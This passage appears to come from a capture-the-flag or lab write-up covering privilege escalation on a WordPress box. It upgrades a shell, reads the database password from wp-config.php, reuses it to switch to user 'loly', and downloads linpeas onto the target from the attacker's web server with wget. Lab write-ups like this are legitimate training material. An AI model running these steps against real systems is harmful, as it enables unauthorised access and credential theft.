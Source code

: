## privilege escalation
Upgrade to a full `tty` shell.
```bash
www-data@ubuntu:/home$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/home$ export TERM=xterm                     
export TERM=xterm
```

Check `wp-config.php` file.
```php
www-data@ubuntu:~/html/wordpress$ cat wp-config.php
cat wp-config.php
<?php
/**
 * The base configuration for WordPress
...
**/
/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );
...
```

Check what user exist on the system.
```bash
www-data@ubuntu:/home$ ls
ls
loly
```

> There is a user named `loly` which might use the password we just found.
{: .prompt-info }

```bash
www-data@ubuntu:/home$ su loly
su loly
Password: lolyisabeautifulgirl

loly@ubuntu:/home$
```

> Yes! We are `loly` now!
{: .prompt-info }

Lets upload `linpeas`.  
Provide `linpeas` with a simple web server on the attacker machine.
```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Upload `linpeas` to target machine.
```bash
loly@ubuntu:/tmp$ wget 192.168.45.186/linpeas.sh
wget 192.168.45.186/linpeas.sh
--2023-08-14 11:16:21--  http://192.168.45.186/linpeas.sh
Connecting to 192.168.45.186:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 830030 (811K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 810.58K  1.37MB/s    in 0.6s    

2023-08-14 11:16:22 (1.37 MB/s) - ‘linpeas.sh’ saved [830030/830030]
```